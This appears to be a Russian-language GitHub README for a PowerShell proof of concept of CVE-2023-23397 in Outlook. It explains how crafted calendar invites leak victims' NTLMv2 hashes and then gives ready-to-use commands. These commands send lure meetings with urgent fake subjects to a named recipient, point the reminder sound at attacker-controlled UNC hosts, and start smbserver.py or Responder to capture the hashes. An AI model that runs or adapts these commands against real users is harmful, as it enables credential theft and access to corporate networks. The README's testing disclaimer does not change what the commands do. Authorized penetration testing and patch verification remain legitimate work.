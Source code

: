 # CVE-2023-23397-PoC-PowerShell
**POC for CVE-2023-23397**

Критическая уязвимость в наборе приложений Microsoft Outlook 365 активно используется в дикой природе и требует срочного исправления. Ошибка CVE-2023-23397 с рейтингом CVSS 9.8, позволяет удаленному злоумышленнику, не прошедшему проверку подлинности, взломать системы, просто отправив специально созданное электронное письмо, которое создаст условия для кражи учетных данных получателя.

В ситуации, когда злоумышленник имеет доступ к локальной сети жертвы, также возможно прямое использование хэша NTLMv2 для входа в другие сервисы без необходимости его взлома. Для проведения атаки жертве достаточно получить электронное письмо, содержащее специально созданное событие календаря или задачу, которая будет ссылаться на путь UNC, контролируемый злоумышленником. Взаимодействие с пользователем не требуется. Атака может быть осуществлена дистанционно.
Полученный доменный пароль можно использовать для входа в другие общедоступные сервисы компании, например, VPN. Если двухфакторная аутентификация не используется, это может привести к тому, что злоумышленник получит доступ к корпоративной сети.

**Все версии Microsoft Outlook для платформы Windows уязвимы** и специалисты рекомендуют немедленно обновить клиенты Outlook в соответствии с рекомендациями. В дополнении Microsoft выпустила сценарий Powershell, который позволяет проверить, получали ли пользователи в вашей организации сообщения, позволяющие использовать уязвимость.

Если инструмент показывает объекты с внешними UNC-путями, возможно, ваша компания подверглась атаке и не лишним будет воспользоваться этим инструментом администраторам серверов Exchange. Доподлинно известно, что уязвимость активно использовалась в атаках одной из APT-группировок как минимум с апреля 2022 года, а учитывая, что детали уязвимости уже описаны публично ожидается рост массовых атак с ее использованием в ближайшие время.

Разбор читать тут https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

**!Данный скрипт не предназначен для нанесения вреда, только для проверки работоспособности уязвимости внутри Вашей компании!**

**Sending:**
```
Send-CalendarNTLMLeak -recipient "a.galichev@domain.kz" -remotefilepath "\\XX.XX.XX.XX\notexists\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
Send-CalendarNTLMLeak -recipient "a.galichev@domain.kz" -remotefilepath "\\fakeserver.domain.local\notexists\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
Send-CalendarNTLMLeak -recipient "a.galichev@domain.kz" -remotefilepath "\\fakeserver.domain.local@80\notexists\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
Send-CalendarNTLMLeak -recipient "a.galichev@domain.kz" -remotefilepath "\\fakeserver.domain.local@SSL@443\notexists\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
```
**Saving:**
```
Save-CalendarNTLMLeak -remotefilepath "\\XX.XX.XX.XX\notexists\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
Save-CalendarNTLMLeak -remotefilepath "\\fakeserver.domain.local\notexists\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
Save-CalendarNTLMLeak -remotefilepath "\\fakeserver.domain.local@80\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
Save-CalendarNTLMLeak -remotefilepath "\\fakeserver.domain.local@SSL@443\sound.wav" -meetingsubject "Срочно! Митинг с руководителем компании" -meetingbody "Вас только что жахнули, Ваши хеши протекли..."
```
**Listening:**
```
sudo smbserver.py -smb2support smb ./smb
//or
sudo python3 Responder.py -i XX.XX.XX.XX -I utun5 -wPv
```

